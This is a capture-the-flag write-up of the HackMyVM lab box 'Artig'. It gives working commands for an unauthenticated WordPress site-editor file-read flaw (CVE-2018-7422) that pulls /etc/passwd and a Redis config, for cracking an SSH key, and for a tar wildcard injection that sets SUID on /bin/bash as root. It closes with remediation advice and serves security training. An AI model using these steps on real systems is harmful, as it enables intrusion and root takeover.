+++
date = '2026-09-10T22:26:00+03:00'
draft = false
title = 'Artig — HackMyVM'
tags = ["HackMyVM", "Linux", "Easy", "FTP", "WordPress", "LFI", "Redis", "SSH", "John the Ripper", "Tar Wildcard Injection", "Privilege Escalation", "CVE-2018-7422", "CTF Writeup"]
feature = 'feature.png'
showTableOfContents = true
+++

## Overview

This writeup covers my path to root on **Artig**, a HackMyVM box that ties together web exploitation and a classic cron-based privilege escalation. The attack chain started with a WordPress install running a vulnerable `site-editor` plugin, which let me read arbitrary files through a local file inclusion vulnerability (CVE-2018-7422). From the LFI I recovered a Redis configuration file that contained a leaked password in a hidden comment, granting me FTP access as `mario`. Deeper enumeration of the FTP service exposed WordPress configuration backups with valid credentials, which I reused to land an SSH session as `max`. A writable cron job running `tar` with a wildcard allowed a checkpoint-based command injection to set the SUID bit on `/bin/bash` and complete the compromise.

## Step 1: Reconnaissance and Enumeration

I started with a full port scan against the target (192.168.56.114) to map the surface.

```
nmap -sV -sC -p- 192.168.56.114
```

```
PORT     STATE SERVICE REASON         VERSION
21/tcp   open  ftp     syn-ack ttl 64 vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-rw-r--    1 1000     1000          649 Apr 10 19:39 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.56.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 10.0p2 Debian 7+deb13u2 (protocol 2.0)
80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.66 ((Debian))
|_http-server-header: Apache/2.4.66 (Debian)
|_http-title: Hello World!
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-generator: WordPress 6.9.4
6379/tcp open  redis   syn-ack ttl 64 Redis key-value store
```

**Key Findings:**

- FTP (21) allows anonymous login and exposes a file called `note.txt`.
- SSH (22) accepts password authentication.
- HTTP (80) is running WordPress 6.9.4.
- Redis (6379) is exposed and open to the network.

### FTP

Anonymous FTP access was allowed, so I logged in and took a look.

```
ftp anonymous@192.168.56.114
```

I found a single file inside: `note.txt`.



The note was left behind by **mike**, the new sysadmin. It mentions potential issues with running services and their configuration files, which pointed me toward the config files of the exposed services.



### SSH

Checking the SSH banner, I confirmed that password authentication is enabled, which meant password-based logins were going to be the way in later.



### HTTP

The web server loads a plain "Hello World!" test page, but the generator tag gave away that WordPress 6.9.4 is running underneath.



I ran **WPScan** against the site to see if any vulnerable plugins were in play.

```
wpscan --url http://192.168.56.114
```

```
Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.66 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://192.168.56.114/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] WordPress readme found: http://192.168.56.114/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://192.168.56.114/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://192.168.56.114/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%

[+] WordPress version 6.9.4 identified (Insecure, released on 2026-03-11).
 | Found By: Meta Generator (Passive Detection)

[+] WordPress theme in use: twentytwentyfive
 | Version: 1.4 (80% confidence)
 | Found By: Style (Passive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[+] Finished: Tue Sep  8 16:54:57 2026
[+] Requests Done: 47
[+] Cached Requests: 5
```

The default scan didn't return any vulnerable plugin data, so I supplied a WPScan API token and rescanned. This identified two plugins: `wp-file-manager` and `site-editor`.



The `site-editor` plugin jumped out at me because it was also mentioned in the note left by the new sysadmin — and it has a public CVE.



The plugin ships with an unauthenticated local file inclusion flaw.



## Step 2: Exploiting the site-editor LFI (CVE-2018-7422)

The affected endpoint is `ajax_shortcode_pattern.php`, which takes an `ajax_path` parameter and reads whatever file path I pass it. I made the request with the path appended at the end.

```
/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=
```

As a proof of concept I pulled `/etc/passwd`.

```
http://192.168.56.114/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```



The same request works over `curl`, which is cleaner for scripting.

```
curl 'http://192.168.56.114/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd'
```



From the output I discovered a second user I hadn't seen before: **mario**.

Since Redis was exposed on the scan and the FTP note hinted at misconfigured service files, I read the Redis configuration file with the same LFI.

```
/etc/redis/redis.conf
```



I went through the config file line by line (piping it through `less` so I could move slowly) and, buried under the **ACTIVE DEFRAGMENTATION** section, I found a note addressed to `mario` containing what looks like a user password.



## Step 3: FTP Access as Mario

I first tested the recovered password against both `mike` and `mario` over SSH, but neither accepted it.



Since FTP was still running with anonymous access earlier, I did a quick password spray on the FTP service with the recovered password — and it worked. I successfully authenticated as `mario`.



```
ftp mario@192.168.56.114
```



The session dropped me into mario's home directory. No sign of a user flag yet, but there were some interesting files to pull down.



I downloaded `.bash_history` to see what commands mario had run through the box.

```
get .bash_history
```

```
└─$ cat .bash_history
cd
ls
ls -al
mkdir .ssh
cd .ssh/
ls
ssh-keygen -t rsa -b 2048 -f ~/.ssh/id_rsa
ls -al
cat id_rsa
cd ..
id
sudo -l
cd ..
cd var
cd www
cd html
ls -al
cd ..
cd
exit
```

Inside the `.ssh` directory I found the SSH keypair mario generated.



```
ftp> mget *
mget id_rsa [anpqy?]? y
229 Entering Extended Passive Mode (|||27181|)
150 Opening BINARY mode data connection for id_rsa (1856 bytes).
100% |***********************************************************************|  1856      172.43 KiB/s    00:00 ETA
226 Transfer complete.
1856 bytes received in 00:00 (162.35 KiB/s)
mget id_rsa.pub [anpqy?]? y
229 Entering Extended Passive Mode (|||49577|)
150 Opening BINARY mode data connection for id_rsa.pub (393 bytes).
100% |***********************************************************************|   393        2.86 MiB/s    00:00 ETA
226 Transfer complete.
393 bytes received in 00:00 (269.70 KiB/s)
ftp>
```

The private key turned out to be passphrase-protected, so I extracted the hash with `ssh2john`.

```
ssh2john id_rsa
```



I saved the hash and cracked it with **John the Ripper** against `rockyou.txt`.

```
ssh2john id_rsa > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```



The passphrase cracked quickly, but when I tried to authenticate over SSH with the key it still kept prompting for a password instead of using the key.

```
ssh -i id_rsa mario@192.168.56.114
mario@192.168.56.114's password:
Permission denied, please try again.
mario@192.168.56.114's password:
```

I decided to go back to FTP and dig further. As `mario` I could move outside the home directory, and I navigated into `/var/www/html/`.



Two files stood out as worth grabbing — they often hold credentials: `wp-config.php` and its backup.



I downloaded both and read them.

## Step 4: Initial Access — SSH as max

`wp-config.php` contained the WordPress database credentials.



The same credentials pattern showed up in `wp-config.bak`. I took the two passwords from these files and tested them against the users I knew about — and one of them granted me an SSH session as **max**.



## Step 5: Privilege Escalation

### Escalating to www-data

Once I was in as `max`, I enumerated the account and checked my sudo rights.

```
max@Artig:~$ id
uid=1000(max) gid=1000(max) groups=1000(max),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),101(netdev)
max@Artig:~$ sudo -l
```



`max` can run `/bin/bash` as the `www-data` user without a password. I executed the command and dropped into a shell as `www-data`.

```
sudo -u www-data /bin/bash
```



I tried injecting a command into the sudo invocation to jump straight to a higher user, but the sudo privilege is dropped immediately once the child command runs, so that path was a dead end.



### The Wildcard Injection

I checked the system crontab for anything running as root.

```
cat /etc/crontab
```



There it is — `/opt/backup.sh` runs with root privileges. I read the script.

```
max@Artig:~$ cat /opt/backup.sh
#!/bin/bash

BACKUP_DIR="/root"
TARGET="/var/www/html"

mkdir -p $BACKUP_DIR

cd $TARGET
tar -czf $BACKUP_DIR/wordpress_backup.tar.gz *
```

The script uses `tar` with the `*` wildcard inside `/var/www/html/`. Since I already had write access to that directory as `www-data`, this was a textbook `tar` wildcard injection: `tar` expands the `*` glob, and any specially named files are treated as command-line options, including `--checkpoint-action=exec`, which runs arbitrary commands.

I created the payload files:

```
echo 'chmod u+s /bin/bash' > shell.sh
chmod +x shell.sh
echo "" > "--checkpoint=1"
echo "" > "--checkpoint-action=exec=sh shell.sh"
```

Once the cron job next ran `tar` (about a minute), the checkpoint options fired `shell.sh` as root, which set the SUID bit on `/bin/bash`. I verified it after the script executed.

```
ls -la /bin/bash
```



With the SUID bit set, I spawned a root shell.

```
bash -p
```

That completed the box — full root access from a weakly protected cron job.

## Conclusion

The break-in on Artig relied on a chain of exposed services, leaked credentials, and a classic cron misconfiguration:

1. Anonymous FTP leaked a note pointing at service configuration files.
2. WordPress's `site-editor` plugin gave a local file inclusion (CVE-2018-7422) to read `/etc/passwd` and `/etc/redis/redis.conf`.
3. A password hidden in the Redis config unlocked FTP access as `mario`.
4. FTP as `mario` exposed SSH keys and WordPress config backups with database credentials.
5. Credential reuse granted SSH access as `max`.
6. A `sudo` rule allowed pivoting to `www-data`.
7. A root cron job running `tar` with a wildcard was abused to set the SUID bit on `/bin/bash` and gain root.

To secure the environment, the following remediations are recommended:

- **Remove or patch vulnerable plugins:** delete `site-editor` or update it to a version without the LFI.
- **Restrict FTP access:** disable anonymous login and avoid serving filesystem-wide access to authenticated users.
- **Harden Redis:** bind to localhost, require authentication, and never store passwords in configuration comments.
- **Protect web roots:** keep database passwords unique and out of backups like `wp-config.bak`.
- **Sanitize cron scripts:** quote wildcards (`tar -czf backup.tar.gz *` → explicit paths or `--`) so filenames cannot be interpreted as options.
- **Enforce password diversity** to prevent credential reuse across services.